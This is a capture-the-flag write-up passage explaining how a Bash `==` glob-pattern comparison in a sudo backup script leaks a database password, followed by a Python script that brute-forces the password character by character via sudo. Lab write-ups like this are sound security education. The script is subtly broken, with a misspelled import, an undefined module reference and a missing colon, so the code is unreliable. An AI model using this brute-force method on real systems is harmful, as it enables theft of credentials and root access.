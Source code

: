 The vulnerability in the script is related to how the password confirmation is handled:
```bash
if [[ $DB_PASS == $USER_PASS ]]; then
    /usr/bin/echo "Password confirmed!"
else
    /usr/bin/echo "Password confirmation failed!"
    exit 1
fi
```
This section of the script compares the user-provided password (USER_PASS) with the actual database password (DB_PASS). The vulnerability here is due to the use of == inside [[ ]] in Bash, which performs pattern matching rather than a direct string comparison. This means that the user input (USER_PASS) is treated as a pattern, and if it includes glob characters like * or ?, it can potentially match unintended strings.

For example, if the actual password (DB_PASS) is password123 and the user enters * as their password (USER_PASS), the pattern match will succeed because * matches any string, resulting in unauthorized access.

This means we can bruteforce every char in the DB_PASS.

### Exploiting Pattern Matching
I wrote a Python script that exploits this by testing password prefixes and suffixes to slowly reveal the full password.

It builds up the password character by character, confirming each guess by invoking the script via sudo and checking for a successful run.
```python
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

![](../../../assets/htb/codify/bruteforce_root_creds.gif)
